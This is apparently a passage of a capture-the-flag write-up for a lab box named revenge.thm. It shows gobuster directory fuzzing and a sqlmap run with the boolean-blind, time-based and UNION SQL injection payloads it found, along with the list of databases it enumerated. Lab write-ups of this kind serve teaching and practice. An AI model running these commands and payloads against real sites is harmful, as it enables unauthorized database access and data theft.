 ### HTTP (port `80`) - Fuzzing Dirs

```
┌──(kali㉿kali)-[~/Wordlists]
└─$ gobuster dir -w directory-list-2.3-medium.txt -t 40 --no-error -u http://revenge.thm/
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://revenge.thm/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 8541]
/products             (Status: 200) [Size: 7254]
/contact              (Status: 200) [Size: 6906]
/login                (Status: 200) [Size: 4980]
/static               (Status: 301) [Size: 194] [--> http://revenge.thm/static/]
/admin                (Status: 200) [Size: 4983]
```

### SQL Injection

Using `sqlmap` to enumerate the paths of the target server, I explore this path is injectable with SQL Injection:

```
http://revenge.thm/products/1
```

So I start to dump all the databases:

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u http://revenge.thm/products/1 --dbs --batch
[...]
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://revenge.thm/products/1 AND 9497=9497

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://revenge.thm/products/1 AND (SELECT 5874 FROM (SELECT(SLEEP(5)))GJDV)

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: http://revenge.thm/products/-5717 UNION ALL SELECT 69,69,69,69,CONCAT(0x716a786271,0x75746344647543736f66754677455679466c4f5a53506b794675764f5058477946576869516a4d47,0x716a716b71),69,69,69-- -
---
[...]
[08:05:10] [INFO] fetching database names
available databases [5]:
[*] duckyinc
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```